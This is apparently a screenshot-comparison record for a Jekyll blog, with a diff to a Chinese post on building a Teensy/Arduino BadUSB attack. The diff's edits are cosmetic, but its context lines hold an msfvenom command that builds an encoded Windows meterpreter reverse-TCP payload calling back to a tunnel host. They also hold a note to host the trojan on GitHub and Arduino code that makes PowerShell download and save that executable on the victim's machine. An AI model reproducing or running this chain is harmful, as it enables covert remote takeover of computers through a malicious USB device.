

Before and after one commit to linusboyle/linusboyle.cn, a Jekyll site: the page built from _posts/2018-09-25-Arduino-Teensy.md, in a window 1280 px wide and 900 px high, scrolled down 4465 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; our own code applies the rules of GitHub Pages for plain Markdown files; Markdown is read by kramdown in place of the engine named in the settings; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2018-09-25-Arduino-Teensy.md

````diff
--- a/_posts/2018-09-25-Arduino-Teensy.md
+++ b/_posts/2018-09-25-Arduino-Teensy.md
@@ -39,7 +39,7 @@
  ⚡/home/da1sy# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 12 -b '\x00' lhost=free.idcfengye.com lport=17839 -f exe > windows.exe
 ```
 **lhost** 为运行sunny后的域名，**lport**为开通隧道时填写的端口（运行后也会有显示）
-#### 最后将生成的木马放到github项目上实现远程下载
+#### **最后将生成的木马放到github项目上实现远程下载**
 ### 6.编辑arduino代码
 ```arduino
 char *command1 = "powershell -Command $clnt = new-object System.Net.WebClient;$url= 'https://raw.githubusercontent.com/da1sy/da1sy/master/windows.exe';$file = ' %HOMEPATH%\\windows.exe ';$clnt.DownloadFile($url,$file); ";
@@ -89,5 +89,5 @@
 
 ### 一些其他的代码
 ```
-
+有时间再补
 ```
````
Also changed, not shown: other parts of _posts/2018-09-25-Arduino-Teensy.md (+1 -1 lines).
